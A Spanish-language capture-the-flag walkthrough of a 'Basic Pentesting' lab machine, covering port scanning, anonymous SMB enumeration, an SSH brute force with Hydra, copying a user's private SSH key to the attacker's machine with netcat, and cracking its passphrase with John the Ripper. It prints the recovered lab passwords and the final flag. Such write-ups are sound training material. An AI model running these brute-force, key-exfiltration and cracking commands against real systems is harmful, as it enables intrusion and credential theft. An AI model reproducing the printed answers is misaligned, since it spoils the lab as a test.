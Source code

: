 # Basic Pentesting

## Escaneo de puertos

Usamos`nmap`para visualizar los servicios expuestos en la máquina.

```
sudo nmap -sC -sV 10.10.85.200
```

![[Pasted image 20250222181007.png]]

Encontramos los puertos 22, 80, 139, 445 abiertos.

## Inspeccionando el sitio web

Accedemos al sitio web por la IP.

![[Pasted image 20250222181820.png]]

No hay gran cosa pero usamos`dirbuster`para buscar más directorios ocultos.

![[Pasted image 20250222182004.png]]

Encontramos el directorio`/development/`y accedemos a él.

![[Pasted image 20250222182125.png]]

```
http://10.10.85.200/development/
```

![[Pasted image 20250222182148.png]]

Descargamos los ficheros del directorio con los siguientes comandos:

```
wget http://10.10.85.200/development/dev.txt   
wget http://10.10.85.200/development/j.txt
```

![[Pasted image 20250222182339.png]]

Este es el contenido de los archivos:

![[Pasted image 20250222182426.png]]

Llegamos a la conclusión de que el developer J tiene una contraseña débil y que puede ser crackeada.

## Enumerando el servicio SMB

Tenemos que buscar el nombre del developer "J". Enumeramos los sharename del servicio SMB activo.

```
smbclient -L //10.10.85.200 -N 
```

Podemos aprovecharnos del`Anonymous`.

![[Pasted image 20250222182811.png]]

```
smbclient //10.10.85.200/Anonymous -N 
```

![[Pasted image 20250222182931.png]]

Vemos que hay un archivo llamado`staff.txt`. Nos lo descargamos para visualizarlo.

![[Pasted image 20250222183040.png]]

El nombre de J era `Jan`y el de K era`Kay`.

## Ataque de fuerza bruta con Hydra

Vamos a hacer un ataque de fuerza por SSH al usuario`Jan`usando el diccionario rockyou.

```
sudo hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.85.200 ssh
```

Después de un tiempo, obtenemos la contraseña de`jan`, que es`armando`.

![[Pasted image 20250222184127.png]]

## Escalada de privilegios

Accedemos por SSH con las credenciales obtenidas:

```
ssh jan@10.10.85.200
```

![[Pasted image 20250222184243.png]]

Nos ubicamos en la carpeta home de`Kay`y descubrimos que podemos acceder a los pares de claves privadas.

![[Pasted image 20250222184436.png]]

Levantamos un netcat en escucha por el puerto 4040 en Kali:

```
nc -nlp 4040 > id_rsa
```

Y en la víctima lo enviamos con el siguiente comando:

```
nc 10.8.3.33 4040 < id_rsa
```

Ahora que tenemos la clave descargada la vamos a usar con John the Ripper para crackear la contraseña de`Kay`.

Modificamos el formato del archivo de`id_rsa`para que sea compatible con JTR.

```
sudo python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```

Ejecutamos el ataque con`John the Ripper`.

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

La passphrase de la clave de`Kay`es`beeswax`.

![[Pasted image 20250222185856.png]]

Accedemos entonces por SSH con el usuario`Kay` y ponemos el passphrase de la clave.

```
sudo ssh -i id_rsa kay@10.10.85.200
```

![[Pasted image 20250222190834.png]]

Finalmente, encontramos la contraseña.

![[Pasted image 20250222190929.png]]

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```






































